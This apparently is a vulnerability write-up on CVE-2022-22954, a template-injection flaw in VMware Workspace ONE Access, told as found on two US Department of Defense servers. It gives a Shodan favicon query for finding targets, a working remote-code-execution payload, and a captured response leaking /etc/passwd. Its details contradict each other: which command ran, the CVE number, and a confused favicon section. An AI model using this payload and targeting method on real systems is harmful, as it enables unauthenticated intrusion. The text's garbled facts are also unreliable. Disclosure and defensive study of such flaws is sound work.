

## Introduction

Welcome everyone. Today, I would like to bring your attention to a critical security vulnerability that has been reported in VMware Workspace One and Identity Manager products, which are used by the US Department of Defense. This vulnerability, known as Server-side Template Injection (SSTI), can be leveraged by attackers to execute remote code on affected systems through the UUID parameter. The vulnerability has been officially reported to VMware by security researcher Steven Seeley and has been assigned the CVE-2022-22954 identifier. In this writeup, we will discuss the details of this vulnerability and the recommended steps to safeguard against potential attacks.

#### Understanding the VMware Workspace ONE Access Vulnerability: CVE-2022-22954

In April 2022, a security vulnerability was identified in the VMware Workspace ONE Access product, which can allow remote attackers to execute arbitrary code without authentication. The vulnerability has been assigned the identifier CVE-2022-22954. In this blog post, we will explore the details of this vulnerability, its potential impact, and the recommended steps to mitigate it.

#### Overview of this Vulnerability

The vulnerability lies within the customError.ftl template used by VMware Workspace ONE Access. The issue arises due to the usage of unsafe freemarker syntax, specifically from a call to eval on untrusted input. Attackers can exploit this vulnerability to execute code in the context of the horizon user, which can result in unauthorized access to sensitive information.

#### Understanding the Favicon Hash Value and its vulnerability

The Favicon hash value is a unique identifier of a website's icon, which is used to represent the website in a browser's address bar or tab. It is often accessed by appending the favicon.ico string to the website's domain name.

While this may seem like a harmless trick, it can be exploited by bad actors and hackers to redirect users to a bogus site abundant with malware. Once on this bogus site, the user may inadvertently download malicious code via phishing links, provide personal data, passwords, bank details, and more.

As demonstrated by the CVE-2022-22954 vulnerability, attackers can use the Favicon hash value to their advantage when attempting to exploit vulnerabilities in systems and applications. It is crucial to implement appropriate security measures, such as secure coding practices and regular vulnerability assessments, to prevent potential exploitation of the Favicon hash value and other similar vulnerabilities.

#### CVE-2022-22954 Exploitation: Attack Phase and Impact

In April 2022, while browsing Twitter after my workday, I came across a tweet by **Sherlock Secure (Udhaya Prakash)** who had shared a proof of concept and details about the **CVE-2022-22954** vulnerability advisory on his GitHub page. The proof of concept contained all the information required to exploit the vulnerability, from the favicon hash to the actual exploit. This discovery highlights the importance of regularly keeping up-to-date with security news and being vigilant about potential vulnerabilities in systems and applications. It is crucial to report any vulnerabilities identified through appropriate channels and follow responsible disclosure practices to ensure that they are addressed promptly.

After obtaining the details of the vulnerability and the proof of concept to exploit it, a specific search query was used on Shodan to identify potentially vulnerable systems. The query used was **http.favicon.hash:-1250474341.**

During my search using the http.favicon.hash:-1250474341 query on Shodan, I discovered that two servers belonging to the **US Department of Defense** were vulnerable to the CVE-2022-22952 vulnerability.





To further investigate the vulnerability, the server or site that was identified through the Shodan search was accessed and its request intercepted using Burp Suite. The intercepted request is shown below:

```http
GET / HTTP/1.1
Host: █████████
Cookie: LOGIN_XSRF=NSlYKinVNwgOtuT; JSESSIONID=A86B60C5FD0B58346764D1FB01DAF155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

This information can be used to further analyze the vulnerability and develop appropriate mitigation measures.

As part of the investigation into the vulnerability, a payload was appended to the endpoint **/catalog-portal/ui/oauth/verify?error=&**. The payload is as follows:

```py
deviceUdid=${"freemarker.template.utility.Execute"?new()("bash -c {eval,$({echo,aWQ7dW5hbWUgLWE=}|{base64,-d})}")}"
```

### Breakdown and Analysis of Payload

The payload executed the id command, with the value encoded as base64.

The response to the payload was interesting, as it triggered the vulnerability and resulted in a **status code of 400**. The logs revealed several messages, including the payload, and **two call stacks to /opt/vmware/horizon/workspace/logs/greenbox_web.log**. The exception thrown was com.vmware.endusercatalog.auth.InvalidAuthContextException.

Ironically, this vulnerability can be considered as a PreAuth vulnerability since it can be triggered without authentication and may lead to unauthorized code execution on the server. It is crucial to promptly address such vulnerabilities and take appropriate measures to prevent exploitation by malicious actors.

When the payload is sent to the vulnerable endpoint, the server responds with a status code of 400. The response includes various headers, such as Vary, Set-Cookie, Cache-Control, X-Content-Type-Options, X-XSS-Protection, Strict-Transport-Security, X-Frame-Options, and Content-Type.

The response body is an HTML error page that contains an error message and a link to sign out. The error message states that the request failed and advises the user to contact their IT administrator. Interestingly, the link to sign out includes the payload in its URL, which suggests that the vulnerability is still present and exploitable.

The response also includes a JavaScript snippet that logs messages to the console. These messages reveal that the vulnerability is related to an invalid authorization context and that a login request was received with a particular **tenant code and device ID**. The logs also reveal the output of the **cat /etc/passwd** command, which contains information about the system's user accounts.

```http
HTTP/1.1 400 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Set-Cookie: EUC_XSRF_TOKEN=6386e149-ff55-4a34-b474-30e6c0c62299; Path=/catalog-portal; Secure
Cache-Control: no-cache,private
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Frame-Options: SAMEORIGIN
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Mon, 11 Apr 2022 15:03:40 GMT
Connection: close
Content-Length: 3576

<!DOCTYPE HTML>
<html xmlns="http://www.w3.org/1999/html">
<head>
    <title>Error Page</title>
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1"/>
    <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
    <style>
        body {
            background: #465361;
        }

        .error-container {
            position: fixed;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            -ms-transform: translate(-50%, -50%);
            text-align: center;
            width: 25%;
            background-color: #fff;
            padding: 20px;
            box-shadow: 0 3px 2px -2px rgba(0, 0, .5, 0.35);
            border-radius: 4px;
        }

        .error-img-container svg {
            width: 40px;
        }

        .error-text-heading {
            font-weight: bold;
            padding-top: 5px;
            padding-bottom: 10px;
        }

        .error-text-container a {
            text-decoration: none;
        }
    </style>
</head>

<body>
<div class="error-container">
    <div class="error-img-container">
        <svg id="icon-warning-big" xmlns="http://www.w3.org/2000/svg" width="32" height="32" viewBox="0 0 32 32">
            <path d="M28.48,24.65,17.64,5.88a1.46,1.46,0,0,0-1.28-.74h0a1.46,1.46,0,0,0-1.28.74L4.25,24.64a1.48,1.48,0,0,0,1.28,2.22H27.2a1.48,1.48,0,0,0,1.28-2.21Zm-1.07.86a.24.24,0,0,1-.21.12H5.53a.24.24,0,0,1-.21-.37L16.15,6.49a.24.24,0,0,1,.21-.12h0a.24.24,0,0,1,.21.12L27.41,25.26A.23.23,0,0,1,27.41,25.51Z"
                  fill="#991700" stroke-width="0"/>
            <circle cx="16.36" cy="13.53" r="0.92" fill="#f38b00" stroke-width="0"/>
            <path d="M16.36,16.43a.62.62,0,0,0-.62.62v5.55a.62.62,0,0,0,1.23,0V17A.62.62,0,0,0,16.36,16.43Z"
                  fill="#991700" stroke-width="0"/>
        </svg>
    </div>
    <div class="error-text-heading">Request Failed</div>
    <div class="error-text-container">
        <p>Please contact your IT Administrator.</p>
        <a href="/catalog-portal/ui/logout?error=&deviceUdid=$%7B%22freemarker.template.utility.Execute%22?new()(%22cat%20/etc/passwd%22)%7D">Sign Out</a>
    </div>
</div>
</body>
<script>
    if (console && console.log) {
        console.log("auth.context.invalid");
        console.log("Authorization context is not valid. Login request  received with tenant code: ███████, device id: root:x:0:0:root:/root:/bin/bash...bin:x:1:1:bin:/dev/null████████
    }
</script>
</html>
```

## Conclusion 

Upon observation, it was noted that including the encoded command **cat /etc/passwd** in the payload as a **base64 string** within the request and transmitting it to the server led to a response containing the contents of /etc/passwd, accompanied by a status code of 400.
